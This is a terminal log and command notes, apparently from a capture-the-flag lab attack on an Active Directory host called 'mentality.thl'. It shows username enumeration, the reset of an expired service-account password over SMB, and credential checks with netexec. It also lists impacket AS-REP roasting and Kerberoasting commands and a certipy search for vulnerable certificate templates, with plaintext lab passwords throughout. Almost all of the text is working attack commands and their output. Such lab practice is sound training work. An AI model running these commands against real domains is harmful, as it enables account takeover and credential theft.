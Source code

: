 2025/09/05 00:55:36 >  [+] VALID USERNAME:       ftpuser@mentality.thl
2025/09/05 00:55:36 >  [+] VALID USERNAME:       Administrator@mentality.thl
2025/09/05 00:55:36 >  [+] VALID USERNAME:       svcapp1@mentality.thl
2025/09/05 00:55:36 >  Done! Tested 5 usernames (3 valid) in 0.003 seconds
                                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Documents/mentality]
└─$ 


-----------------------------------




──(kali㉿kali)-[~/Documents/mentality]
└─$ rpcclient -U "mentality.thl"/"svcapp1" 192.168.56.107

Password for [MENTALITY.THL\svcapp1]:
Cannot connect to server.  Error was NT_STATUS_PASSWORD_EXPIRED
                                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Documents/mentality]
└─$ 
                                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Documents/mentality]
└─$ smbpasswd -r 192.168.56.107 -U "svcapp1"

Old SMB password:
New SMB password:
Retype new SMB password:
Password changed for user svcapp1
                                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Documents/mentality]
└─$ netexec smb 192.168.56.107 -u 'svcapp1' -p "Patito12345"                                                 
SMB         192.168.56.107  445    WIN-9FQTT7GPAVK  [*] Windows 11 / Server 2025 Build 26100 x64 (name:WIN-9FQTT7GPAVK) (domain:mentality.thl) (signing:True) (SMBv1:False) 
SMB         192.168.56.107  445    WIN-9FQTT7GPAVK  [+] mentality.thl\svcapp1:Patito12345 
                                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Documents/mentality]
└─$ 
 
---------------------------

impacket-GetNPUsers -usersfile uservalid.txt -no-pass mentality.thl/

impacket-GetUserSPNs mentality.thl/svcapp1:Hola1234$

impacket-GetUserSPNs mentality.thl/ftpuser:SuperSecret123$ -request






netexec smb 192.168.56.107 -u ftpuser -p 'SuperSecret123$'


netexec smb 192.168.56.107 -u svcapp1 -p 'Hola1234$'



certipy-ad find -u 'svcapp1' -p 'Patito12345' -dc-ip 192.168.56.107 -vulnerable -stdout



